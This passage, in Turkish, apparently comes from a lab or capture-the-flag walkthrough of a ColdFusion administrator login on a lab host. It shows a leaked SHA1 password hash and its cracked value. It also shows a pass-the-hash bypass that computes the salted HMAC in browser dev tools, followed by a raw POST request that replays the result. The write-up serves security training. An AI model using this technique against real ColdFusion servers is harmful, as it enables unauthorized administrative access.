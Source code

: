 Bu parola alanı bir hash gibi görünüyor ve uzunluğu göz önüne alındığında SHA1 gibi görünüyor: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03.

![Pasted image 20250209194539.png](/img/user/Pasted%20image%2020250209194539.png)

#### Log In

Parola alanına **happyday** yazdığımda başarılı bir şekilde giriş yapabildim.

Peki, kullanıcı **kırılması zor** bir parola seçmiş olsaydı ve bunu kolayca **brute force** yapamasaydım? Aslında burada bunu da aşmanın bir yolu var.

Daha önce gördüğümüz gibi, **JavaScript**, parola girişini (**happyday**) alıp önce **SHA1 hash'ini** oluşturuyor, ardından **HMAC hash** ile birleştiriyor ve **salt (veya key)** ile birlikte siteye gönderiyor.

https://nets.ec/Coldfusion_hacking#Logging_In

Bu yüzden, sitede yapılan işlemi **lokalde taklit edebilirim**. **Leaked hash** sayesinde bunu doğrudan kendim hesaplayabilirim.

Bunun için **Firefox Developer Tools**'a girerek, sayfadaki aynı **JavaScript fonksiyonlarını** kullanarak gönderilen **hash**'i oluşturacağım.

Sayfadaki **salt** değerine erişmek için şu kodu çalıştırabilirim:

```
document.loginform.salt.value
```

Ardından, **SHA1 hash**'i kullanarak gönderilen değeri hesaplayacağım.

```
hex_hmac_sha1(document.loginform.salt.value, '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03');
```

Bir sonuç verir:

![Pasted image 20250209194708.png](/img/user/Pasted%20image%2020250209194708.png)

Formu göndereceğim ve hesaplamalara göre hash'i değiştireceğim:

```
POST /CFIDE/administrator/enter.cfm HTTP/1.1
Host: 10.10.10.11:8500
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.11:8500/CFIDE/administrator/
Content-Type: application/x-www-form-urlencoded
Content-Length: 141
Connection: close
Cookie: CFID=100; CFTOKEN=20430451; CFADMIN_LASTPAGE_ADMIN=%2FCFIDE%2Fadministrator%2Fhomepage%2Ecfm
Upgrade-Insecure-Requests: 1

cfadminPassword=C1F159600F4058D19D25DACA563D723273798E8C&requestedURL=%2FCFIDE%2Fadministrator%2Findex.cfm%3F&salt=1589487103545&submit=Login
```

